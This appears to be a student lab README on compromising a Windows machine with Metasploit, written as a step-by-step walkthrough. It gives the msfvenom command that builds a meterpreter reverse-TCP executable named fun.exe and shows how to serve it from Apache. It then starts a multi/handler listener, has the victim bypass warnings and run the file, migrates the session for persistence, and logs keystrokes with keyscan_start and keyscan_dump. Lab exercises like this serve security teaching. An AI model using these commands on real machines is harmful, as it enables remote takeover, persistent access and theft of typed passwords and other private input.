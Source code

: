 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands
Find the attackers ip address using ifconfig

## OUTPUT:
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:
![2out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/d53d9cce-a244-4c47-97f8-181a627f7091)

copy the fun.exe into the apache /var/www/html folder
![3out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/2b8ce543-5eb9-4f4b-9880-cc851dbbcf18)

Start apache server sudo systemctl apache2 start
![4out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/e6c149a3-dea5-4852-b75d-afb9f9a7ca7e)

Check the status of apache2

![5out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/49a76f26-c71b-4fe4-922b-2219298a80ff)
Invoke msfconsole:

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler
![6out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/a60aa04d-7b21-49c5-85bc-1a1246d902d8)
set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![7out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/ee57294a-84c9-4a34-afa2-e8d9458397cd)
Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![8out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/8e787cd1-f158-4718-9991-903bef672d8c)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![9out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/f6ffb5bc-f557-4928-9adf-3795edc6a255)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![11out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/88831f45-eed5-454a-a7db-df6cbdb5c1ce)
keyscan_dump Shows the keystrokes captured so far
![12out](https://github.com/kiruthika512/Compromising-windows-using-Metasploit/assets/135616605/fefb0cb9-de53-4a15-9f6b-2b510d09598a)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
